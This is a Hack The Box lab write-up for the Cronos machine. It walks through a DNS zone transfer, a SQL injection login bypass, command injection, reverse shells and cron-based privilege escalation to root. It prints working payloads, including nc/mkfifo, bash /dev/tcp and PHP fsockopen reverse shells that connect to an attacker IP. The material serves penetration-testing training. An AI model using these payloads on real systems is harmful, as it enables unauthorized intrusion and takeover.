# Cronos: 10.10.10.13

## Hints

- DNS can be useful when it seems nothing else is available
- The web app is Laravel which usually uses a database for authentication
- Privesc is all about the usual tools and checking for easy issues

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## 80: Recon

Browsing to port 80 using the IP shows the Apache landing page. Browsing to `cronos.htb` displays a website with barely any info and links to only external websites.

![Cronos Homepage](screenshots/cronos_home.png)

Since we are not getting much from the website, and that DNS is on the server - had a poke around the DNS service. My DNS pentesting skills are still evolving - so I used the [HackTricks Pentesting DNS](https://book.hacktricks.xyz/pentesting/pentesting-dns) page for some advice. Trying a zone transfer yeilded a couple addiontinal domain names.

```none
└─$ dig axfr @10.10.10.13 cronos.htb                                                                  

; <<>> DiG 9.16.15-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 32 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Sat Jul 03 16:07:50 NZST 2021
;; XFR size: 7 records (messages 1, bytes 203)
```

The `www` prefix redirects to the same Cronos homepage. The `ns1` prefix just shows the Apache default page. However, the `admin` prefix shows another new website with a login.

![Cronos Admin Panel](screenshots/cronos_admin_panel.png)

Tried a few common passwords but no luck. It makes it hard to try guess (or hydra) login credentials when the error message does not state if it is the username or password that is incorrect. The generic error message for the login is:

```none
Your Login Name or Password is invalid
```

Guessing the username was probably `admin` - based on previous HTB experience. Didn't think there was much chance of getting any credentials - but had no other enumeration running against the box so decided to run `hydra` against the login form.

```none
hydra -l admin -P /usr/share/wordlists/rockyou.txt admin.cronos.htb http-post-form "/:username=^USER^&password=^PASS^:F=Your Login Name or Password is invalid"
```

With nothing else to try enumerate, went back to the admin panel to try some more login attempts. Think my brain was not working becuase it took about 10 minutes before I thought of SQL injection. I hadn't used it for so long - that I think it was off my radar. The SQLi vulnerability was pretty bad, and almost any SQLi parload worked. The simplest example was this payload against the username input:

```none
' -- 
```

Make sure to note the space after the double dash (`--`) comment - this is essential. After loggin in, we are presented with a "Net Tool" which looks like a prime target for command injection.

![Cronos Net Tool v0.1](screenshots/cronos_nettool.png)

## Getting a Shell

The easiest method to trying command injection is to use Burp. I intercepted the request and sent it to Repeater. Tried a few different payloads and all of them were working, without much manipulation of the input. Couple of working examples are listed below:

```none
command=traceroute&host=8.8.8.8;whoami
command=traceroute&host=8.8.8.8|whoami
command=whoami
```

Tried the common bash reverse shell, but it didn't work.

```none
command=bash -i >& /dev/tcp/10.10.14.56/9001 0>&1
```

Second try was using `nc` which I checked existance of on the target machine with `which nc` before using the payload. Then used the following payload:

```none
command=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.56 9001 >/tmp/f
```

Remember to URL encode for best results!

## Flag: User

The end result of the last section was access as the `www-data` user. And access to the user flag.

```none
└─$ nc -lvnp 9001                                 
listening on [any] 9001 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.13] 37816
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls -l /home
total 4
drwxr-xr-x 4 noulis noulis 4096 Apr  9  2017 noulis
$ wc -c /home/noulis/user.txt
33 /home/noulis/user.txt
```

## Privesc

Ran `linpeas.sh` on the server under the `www-data` user. This found a crontab entry - which seemed suitable given the name of the box.

```none
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

And ... we have write access on this file!

```none
www-data@cronos:/dev/shm$ ls -l /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

I have been using GTFOBins a lot lately. Found a suitable [PHP Reverse Shell](https://gtfobins.github.io/gtfobins/php/#reverse-shell). For these types of payloads - I am starting to try write one-lines that are suitable for use in Bash. This means I can easily reuse them. The idea - overwrite the `artisan` file with the reverse shell.

```none
echo '<?php $sock=fsockopen("10.10.14.56",9002);exec("/bin/sh -i <&3 >&3 2>&3"); ?>' > /var/www/laravel/artisan
```

Wait for the up to 1 minute. You can always check the time using the `date` command. The script should execute on the minute, every minute.

```none
└─$ nc -lvnp 9002                                                                                               1 ⨯
listening on [any] 9002 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.13] 50030
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Flag: Root

With a shell as the `root` - just grab the flag from the usual place:

```none
wc -c /root/root.txt
33 /root/root.txt
```

## Lessons Learned

- Remember all options for attacking web forms - Hydra is not to only option!
- Not really much else to say - think this box was an easy medium

## Useful Resources

- [HackTheBox Cronos - ippsec](https://www.youtube.com/watch?v=CYeVUmOar3I)
- [Hack The Box — Cronos Writeup w/o Metasploit by Rana Khalil](https://medium.com/swlh/hack-the-box-cronos-writeup-w-o-metasploit-7b9453e557d0)
- [HTB: Cronos by 0xdf](https://0xdf.gitlab.io/2020/04/14/htb-cronos.html)
